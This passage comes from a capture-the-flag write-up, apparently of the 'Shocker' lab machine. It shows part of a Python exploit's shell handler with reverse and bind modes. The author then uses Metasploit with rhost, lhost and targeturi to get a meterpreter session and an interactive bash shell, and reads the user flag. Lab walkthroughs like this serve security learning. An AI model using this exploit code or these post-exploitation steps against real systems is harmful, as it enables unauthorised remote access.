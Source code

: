 ```bash
                clientsocket.settimeout(3)
                while True:
                        reply = raw_input(clientaddr[0]+"> ")
                        clientsocket.sendall(reply+"\n")
                        try:
                                data = clientsocket.recv(buff)
                                print data
                        except:
                                pass

        if args['payload'] == 'bind':
                try:
                        serversocket = socket(AF_INET, SOCK_STREAM)
                        time.sleep(1)
                        serversocket.connect(addr)
                        print "[!] Successfully exploited"
                        print "[!] Connected to "+rhost
                        stop = True
                        serversocket.settimeout(3)
                        while True:
                                reply = raw_input(rhost+"> ")
                                serversocket.sendall(reply+"\n")
                                data = serversocket.recv(buff)
                                print data
                except:
                        pass
```

It looks like it creats a reverse shell.

I tried t to run it with the variables that are needed, but it didn't work so I decide to use metasploit.

after finding the exploit let's set:

rhost

lhost

targeturi


![image](https://cdn-images-1.medium.com/max/1000/1*1liPHSgx5VgRSqY-o1uIHQ.png)


and there is a  meterpereter shell.

Let's grab user.txt flag.

```bash
meterpreter > shell
Process 1520 created.
Channel 1 created.
ls
user.sh
/bin/bash -i
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ cd ..
cd ..
shelly@Shocker:/usr/lib$ cd /home/shelly
cd /home/shelly
shelly@Shocker:~$ ls
ls
user.txt
shelly@Shocker:~$ cat user.txt
```